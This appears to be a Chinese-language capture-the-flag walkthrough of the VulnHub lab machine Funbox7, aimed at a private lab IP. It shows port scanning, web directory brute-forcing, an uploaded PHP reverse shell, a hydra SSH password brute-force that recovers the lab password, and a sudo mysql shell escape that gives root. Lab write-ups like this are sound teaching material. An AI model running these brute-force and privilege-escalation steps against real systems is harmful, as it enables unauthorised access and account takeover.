





# FunboxEasyEnum

> https://download.vulnhub.com/funbox/Funbox7.ova

靶场IP：`192.168.2.8`

扫描对外端口服务

```
┌──(root㉿kali)-[~/Desktop]
└─# nmap -p1-65535 -sV 192.168.2.8
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-05 07:31 EDT
Nmap scan report for 192.168.2.8
Host is up (0.00049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:8F:87:22 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.02 seconds

```

浏览器访问80端口



爆破web目录

```
┌──(root㉿kali)-[~/Desktop]
└─# gobuster  dir -u http://192.168.2.8/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.8/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2022/09/05 07:39:37 Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 315] [--> http://192.168.2.8/javascript/]
/mini.php             (Status: 200) [Size: 4443]                                    
/robots.txt           (Status: 200) [Size: 21]                                      
/secret               (Status: 301) [Size: 311] [--> http://192.168.2.8/secret/]    
/phpmyadmin           (Status: 301) [Size: 315] [--> http://192.168.2.8/phpmyadmin/]
/server-status        (Status: 403) [Size: 276]                                     
                                                                                    
===============================================================
2022/09/05 07:42:49 Finished
===============================================================

```





上传php反弹shell



建立反弹shell成功。



对用户进行暴力破解

```
┌──(root㉿kali)-[/tmp]
└─# hydra -l goat -P /usr/share/wordlists/rockyou.txt 192.168.2.8 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-05 07:50:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.2.8:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344245 to do in 1532:31h, 14 active
[STATUS] 118.00 tries/min, 354 tries in 00:03h, 14344047 to do in 2025:60h, 14 active
[STATUS] 102.29 tries/min, 716 tries in 00:07h, 14343685 to do in 2337:12h, 14 active
[22][ssh] host: 192.168.2.8   login: goat   password: thebest
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-05 07:59:07

```

查看sudo列表

```
goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql

```

提权

```
goat@funbox7:~$ sudo -u root /usr/bin/mysql -e '\! /bin/bash'
root@funbox7:~# id
uid=0(root) gid=0(root) groups=0(root)
root@funbox7:~# ls /root
html.tar.gz  root.flag  script.sh
root@funbox7:~# cat /root/root.flag 
  █████▒ █    ██  ███▄    █  ▄▄▄▄    ▒█████  ▒██   ██▒                   
▓██   ▒  ██  ▓██▒ ██ ▀█   █ ▓█████▄ ▒██▒  ██▒▒▒ █ █ ▒░                   
▒████ ░ ▓██  ▒██░▓██  ▀█ ██▒▒██▒ ▄██▒██░  ██▒░░  █   ░                   
░▓█▒  ░ ▓▓█  ░██░▓██▒  ▐▌██▒▒██░█▀  ▒██   ██░ ░ █ █ ▒                    
░▒█░    ▒▒█████▓ ▒██░   ▓██░░▓█  ▀█▓░ ████▓▒░▒██▒ ▒██▒                   
 ▒ ░    ░▒▓▒ ▒ ▒ ░ ▒░   ▒ ▒ ░▒▓███▀▒░ ▒░▒░▒░ ▒▒ ░ ░▓ ░                   
 ░      ░░▒░ ░ ░ ░ ░░   ░ ▒░▒░▒   ░   ░ ▒ ▒░ ░░   ░▒ ░                   
 ░ ░     ░░░ ░ ░    ░   ░ ░  ░    ░ ░ ░ ░ ▒   ░    ░                     
           ░              ░  ░          ░ ░   ░    ░                     
                                  ░                                      
▓█████  ▄▄▄        ██████ ▓██   ██▓▓█████  ███▄    █  █    ██  ███▄ ▄███▓
▓█   ▀ ▒████▄    ▒██    ▒  ▒██  ██▒▓█   ▀  ██ ▀█   █  ██  ▓██▒▓██▒▀█▀ ██▒
▒███   ▒██  ▀█▄  ░ ▓██▄     ▒██ ██░▒███   ▓██  ▀█ ██▒▓██  ▒██░▓██    ▓██░
▒▓█  ▄ ░██▄▄▄▄██   ▒   ██▒  ░ ▐██▓░▒▓█  ▄ ▓██▒  ▐▌██▒▓▓█  ░██░▒██    ▒██ 
░▒████▒ ▓█   ▓██▒▒██████▒▒  ░ ██▒▓░░▒████▒▒██░   ▓██░▒▒█████▓ ▒██▒   ░██▒
░░ ▒░ ░ ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░   ██▒▒▒ ░░ ▒░ ░░ ▒░   ▒ ▒ ░▒▓▒ ▒ ▒ ░ ▒░   ░  ░
 ░ ░  ░  ▒   ▒▒ ░░ ░▒  ░ ░ ▓██ ░▒░  ░ ░  ░░ ░░   ░ ▒░░░▒░ ░ ░ ░  ░      ░
   ░     ░   ▒   ░  ░  ░   ▒ ▒ ░░     ░      ░   ░ ░  ░░░ ░ ░ ░      ░   
   ░  ░      ░  ░      ░   ░ ░        ░  ░         ░    ░            ░   
                           ░ ░                                           
                                                                         
...solved ! 

Please, tweet this screenshot to @0815R2d2. Many thanks in advance.
root@funbox7:~# 

```

